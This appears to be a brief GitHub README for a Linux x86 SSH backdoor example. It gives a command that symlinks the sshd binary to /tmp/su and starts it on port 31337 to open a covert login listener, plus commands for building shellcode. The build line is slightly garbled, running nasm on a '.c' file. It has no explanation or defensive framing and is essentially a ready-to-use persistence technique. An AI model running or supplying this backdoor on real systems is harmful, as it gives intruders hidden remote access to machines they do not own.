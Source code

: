 # sshd-backdoor-example- linux-x86
SSH Backdoor example !
@by lizard2h;
@thanks to k3nsh1n for "instiga" ;)

## Compile ASM
strace -e execve,symlink ./a.out 
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=31337;

OR $nasm -f elf shellcode.c and ld -s -o shellcode shellcode.o

